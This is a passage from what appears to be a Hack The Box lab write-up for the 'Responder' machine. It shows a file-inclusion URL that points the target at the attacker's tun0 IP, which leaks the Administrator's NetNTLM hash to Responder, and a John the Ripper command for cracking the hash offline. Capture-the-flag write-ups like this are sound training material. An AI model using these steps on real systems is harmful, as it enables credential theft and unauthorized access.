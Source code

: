 ```
http://unika.htb/?page=//{tun0 ip}/blablabla
```

![Responder](./Screenshots/responderresponder3.png)

We can see an error about not being able to load the requested file.

However, on our listening `Responder` server, we observe that we have captured a NetNTLMv hash for the Administrator user.

![Responder](./Screenshots/responderresponder4.png)

Let's dump hash into a file:

![Hash](./Screenshots/responderhash.png)

### John the Ripper

To crack password type:

```
john --wordlist={path to the dictionary you wanna use} {name of yor hash file .txt}
```

![John](./Screenshots/responderjohn.png)
